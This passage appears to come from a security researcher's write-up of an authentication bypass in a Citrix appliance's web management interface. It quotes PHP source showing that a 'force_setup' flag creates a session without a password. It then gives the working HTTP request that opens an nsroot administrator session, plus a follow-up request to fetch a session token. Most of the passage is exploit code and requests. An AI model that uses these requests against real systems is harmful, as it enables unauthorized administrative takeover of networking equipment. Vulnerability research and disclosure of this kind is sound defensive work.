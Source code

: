 ### Fixing the session
We have a somewhat valid session now. Let's see if we can make it more valid, as we are missing some attributes. All we have at the moment is `username` and a broken `sid`. Luckily, we can now use a function called `setup_session()`. This function takes two required arguments: `sid` and `username`, but also has an optional parameter called `force_setup`. 

And because we already have a somewhat working session, we get to go straight here:

```php
else if(isset($data["force_setup"]))
{
    $this->load->helper('cookie');
    utils::setup_webstart_user_session(urldecode($data["sid"]), $data["username"], null, true);
}
```

The `setup_webstart_user_session()` function takes the arguments `username`, `sid`, `timezone_offset` and `force_setup`. When `force_setup` is set, a new login is forced without having to know the password:

```php
require_once(APPPATH. "controllers/common/login.php");
$login = new login();
$login->setupUserSession($username, input_validator::get_default_value("timeout"), input_validator::get_default_value("unit"), $timezone_offset, input_validator::get_default_value("jvm_memory"));
```
Ding ding ding! We have a winner. We can force a new session as `nsroot` by using this HTTP request:
```http
GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
Upgrade-Insecure-Requests: 1
```

## So now what?
Well, we can do several things. We do first need to get our "random" value and save it in our request headers:

```http
GET /menu/stc HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
Upgrade-Insecure-Requests: 1
```
